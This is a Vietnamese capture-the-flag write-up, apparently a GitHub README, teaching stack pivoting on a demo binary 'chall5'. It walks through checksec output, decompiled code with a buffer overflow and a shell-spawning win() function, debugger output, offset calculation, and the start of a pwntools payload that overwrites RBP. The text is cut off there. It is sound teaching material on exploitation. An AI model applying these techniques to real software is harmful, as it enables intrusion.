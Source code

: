 # stackpivot_chall_demo_file

***Mục đích chính của kỹ thuật này là chuyển hướng luồng thực thi của chương trình bằng cách thay đổi con trỏ stack (RSP/ESP) sang một vùng nhớ mới mà chúng ta kiểm soát, từ đó thực thi các đoạn mã (thường là ROP chain) đã được đặt sẵn ở vùng nhớ đó.***

### Tại sao cần Stack Pivot?
1. **Không đủ không gian trên stack hiện tại**: Khi buffer quá nhỏ, không đủ để chứa toàn bộ ROP chain.
2. **Kiểm soát vùng nhớ mới**: Chúng ta có thể ghi dữ liệu lên các vùng nhớ khác (như heap, .bss) và muốn thực thi ROP chain từ đó.
3. **Bypass một số cơ chế bảo vệ**: Như ASLR, NX, Stack Canary (bằng cách tránh việc ghi đè lên stack ban đầu).

# File demo (`chall5`)
## Kiểm tra cơ chế bảo vệ
```bash
checksec chall5
```
```
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```
* No canary vì thế chúng ta có thể ghi đè return address
* No PIE : địa chỉ không bị random hóa

## Kiểm tra mã giả với IDA64
```bash
ida64 chall5
```
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[2]; // [rsp+Eh] [rbp-2h] BYREF

  init(argc, argv, envp);
  qword_404850 = (__int64)win;
  puts("Welcome human!");
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        puts("1. Buy");
        puts("2. Sell");
        puts("3. Exit");
        printf("> ");
        read(0, buf, 2uLL);
        if ( buf[0] != 49 )
          break;
        buy();
      }
      if ( buf[0] != 50 )
        break;
      sell();
    }
    if ( buf[0] == 51 )
      break;
    puts("Invalid choice!");
  }
  puts("Thanks for coming!");
  return 0;
}
```
* Có thể thấy chương trình mô phỏng một menu với các lựa chọn `Buy`, `Sell`, `Exit`.
* Phát hiện hàm win được gán vào một con trỏ có địa chỉ `404850`, hàm này có thể tạo shell:
```
int win()
{
  return system("/bin/sh");
}
```
* Kiểm tra hàm `Buy`:
```
__int64 buy()
{
  __int64 result; // rax
  char buf[28]; // [rsp+0h] [rbp-20h] BYREF
  int v2; // [rsp+1Ch] [rbp-4h]

  v2 = 0;
  puts("1. Apple");
  puts("2. Banana");
  puts("3. Cambridge IELTS Volumn 4");
  printf("> ");
  v2 = read(0, buf, 0x28uLL);
  result = (unsigned __int8)buf[v2 - 1];
  if ( (_BYTE)result == 10 )
  {
    result = v2 - 1;
    buf[result] = 0;
  }
  return result;
}
```
- Tại đây chương trình khai báo biến `buf` chứa được 28 byte nhưng đọc vào 0x28 hexabyte (40 byte) vì vậy xảy ra buffer overflow.
## Khai thác
### Kiểm tra giá trị thanh ghi khi chương trình crash
* Thử nhập vào hàm `Buy` 40 byte, chương trình gặp lỗi `SIGBUS`:
```
Program received signal SIGBUS, Bus error.
```
* Nhận thấy giá trị RBP bị thay đổi nhưng RIP thì không, Nên luồng chương trình vẫn trờ về hàm main để tiếp tục. Tuy nhiên RBP được lấy ra là một địa chỉ không hợp lệ do đã bị ghi đè nên chương trình bị lỗi.
```
RBP  0x6161616161616165 ('eaaaaaaa')
RIP  0x401311 (main+123) ◂— movzx eax, byte ptr [rbp - 2]
```
* Do địa chỉ binary tĩnh nên ta nghĩ đến việc thay đổi RBP thành một giá trị hợp lệ 
```
vmmap
```
* Ta thấy từ địa chỉ 0x404000 tới 0x405000 có quyền rw, do là rbp -2 nên ta chọn sao cho khi thực thi không bị nhảy tới vùng nhớ trước nó.
```
0x404000           0x405000 rw-p     1000    3000 chall5
```
```bash
x/50xg 0x404000
```
* Chọn `0x404900`
### Tính offset
```bash
cyclic -l 0x6161616161616165
```
```
Found at offset 32
```
## SCRIPT
* Đặt input, debug động để xem giá trị RBP
```python
input()
p.sendlineafter(b'> ', b'1')
payload = b'A' * 32
payload += p64(0x404900)
```
* Giá trị RBP đã bị thay đổi
```
RBP  0x404900
```
* Đặt breakpoint tại lệnh read trong hàm `Buy` xem dữ liệu bị thay đổi.
```
rbp         0x7ffce1907cf0 —▸ 0x7ffce1907d10
```
* Ta thấy lúc này overwrite được rbp của hàm main, sau khi về hàm `main` thì rbp nhận giá trị mà ta đã overwrite.




